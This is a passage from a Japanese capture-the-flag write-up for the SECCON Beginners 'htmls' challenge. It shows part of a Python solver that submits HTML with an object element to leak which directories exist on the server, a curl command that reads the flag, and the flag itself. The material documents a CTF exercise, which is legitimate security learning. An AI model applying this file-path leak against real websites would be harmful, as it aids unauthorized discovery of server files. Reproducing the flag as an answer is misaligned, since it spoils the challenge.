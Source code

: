 ```python
html = f"""
<html>
    {_object}
</html>
"""

res = requests.post("https://htmls.beginners.seccon.games", data={"html": html})
assert res.status_code == 200
```
最後にどのディレクトリも存在しないリクエストが届いた場合には、その下に`flag.txt`がある。  
リークの結果、`/var/www/htmls/ctf/q/c/j/6/p/f/v/b/e/k/8/u/8/4/d/g/f/f/1/l/flag.txt`にあることがわかる。  
以下のように読み取る。  
```bash
$ curl 'https://htmls.beginners.seccon.games/flag/q/c/j/6/p/f/v/b/e/k/8/u/8/4/d/g/f/f/1/l/'
ctf4b{h7ml_15_7h3_l5_c0mm4nd_h3h3h3!}
```
flagが得られた。  
ちなみに[leak2.py](solver/leak2.py)のようにCSSから読み取る手法もある。  

## ctf4b{h7ml_15_7h3_l5_c0mm4nd_h3h3h3!}